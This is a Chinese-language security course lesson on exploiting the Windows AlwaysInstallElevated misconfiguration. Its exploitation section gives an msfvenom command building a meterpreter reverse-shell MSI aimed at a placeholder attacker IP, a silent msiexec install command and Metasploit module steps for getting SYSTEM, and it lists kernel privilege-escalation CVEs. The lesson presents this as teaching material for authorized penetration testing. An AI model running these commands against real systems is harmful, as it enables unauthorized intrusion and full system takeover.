# 网络安全系统教程：P95：82. Always Install Elevated 模块提权详解 🔧



在本节课中，我们将学习一个经典的 Windows 提权漏洞——Always Install Elevated。该漏洞源于系统策略的错误配置，允许任何用户以 SYSTEM 权限安装 MSI 文件，从而为攻击者提供了获取系统最高权限的途径。



上一节我们介绍了多种提权思路，本节中我们来看看如何利用 Windows 安装策略的配置缺陷进行提权。

## 漏洞原理概述



Always Install Elevated 漏洞的核心在于 Windows 的组策略设置。当管理员启用了“始终以高特权进行安装”策略时，系统会错误地允许任何用户（包括普通用户）以 SYSTEM 权限执行 Windows Installer 包（.msi 文件）。



这意味着，攻击者只需生成一个恶意的 MSI 安装包，诱使或上传到目标机器并执行，该安装包中的代码（即我们的 Payload）就会以 SYSTEM 权限运行，从而实现权限提升。





## 利用步骤详解





以下是利用此漏洞进行提权的标准流程。





1.  **验证漏洞存在**：首先，需要检查目标机器的组策略是否配置不当。可以通过检查注册表键值或使用 `whoami /priv` 等命令来间接判断，但更直接的方式是使用 Metasploit 的 `exploit/windows/local/always_install_elevated` 模块进行检测。
2.  **生成恶意 MSI**：确认漏洞存在后，我们需要创建一个包含反向 Shell 或其他 Payload 的 MSI 文件。Metasploit 的 `msfvenom` 工具可以方便地完成此任务。
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<端口> -f msi -o evil.msi
    ```
3.  **上传并执行**：将生成的 `evil.msi` 文件上传到目标机器。然后，以普通用户权限执行安装命令。
    ```cmd
    msiexec /quiet /qn /i C:\path\to\evil.msi
    ```
    参数说明：
    *   `/quiet`：安静模式。
    *   `/qn`：无用户界面。
    *   `/i`：安装指定的 MSI 包。
4.  **接收会话**：执行后，MSI 文件中的 Payload 会以 SYSTEM 权限连接回攻击者的监听器，从而获得一个高权限的 Meterpreter 会话。



## 实战演示与注意事项

在演示环境中，我们获得了目标机普通用户 `NATHNA` 的初始 Shell。随后，我们使用 Metasploit 的 `exploit/windows/local/always_install_elevated` 模块。

我们设置好会话（SESSION）参数后，执行 `exploit` 命令。模块会自动完成上述步骤：生成 MSI、上传至目标机的临时目录（如 `C:\Windows\Temp\`）、并执行安装。成功后，我们便获得了一个 SYSTEM 权限的 Meterpreter 会话。



**关键点**：此攻击成功的前提是目标系统确实配置了有问题的组策略。在实际渗透测试中，需要先进行信息收集和验证，不能盲目使用。



## 拓展知识与工具



除了 Always Install Elevated，Windows 系统历史上存在许多内核级别的本地提权漏洞（LPE）。Metasploit 框架内置了大量此类漏洞的利用模块，方便安全人员测试和验证。

以下是部分著名的 Windows 内核提权漏洞及其在 MSF 中的对应模块示例：
*   CVE-2019-0808：Win32k 漏洞
*   CVE-2018-8120：Win32k 特权提升漏洞
*   CVE-2017-0213：Windows COM 特权提升漏洞

这些模块的使用方法通常很简单：选择模块（`use exploit/...`），设置目标会话（`set SESSION <id>`）和 Payload，然后执行（`exploit`）即可。对于希望深入研究的学习者，可以查阅像“LOLBAS”这样的项目，它详细列出了可用于提权和其他攻击的合法 Windows 工具。



## 总结



本节课中我们一起学习了 Always Install Elevated 提权漏洞。我们了解了其产生的原因是 Windows 组策略的错误配置，掌握了利用 Metasploit 生成恶意 MSI、上传并执行以获取 SYSTEM 权限的完整流程。同时，我们也认识到在实际利用前进行漏洞验证的重要性，并拓展了解了其他 Windows 内核提权漏洞的利用资源。掌握这些方法，能帮助我们在授权渗透测试中更有效地评估系统的安全性。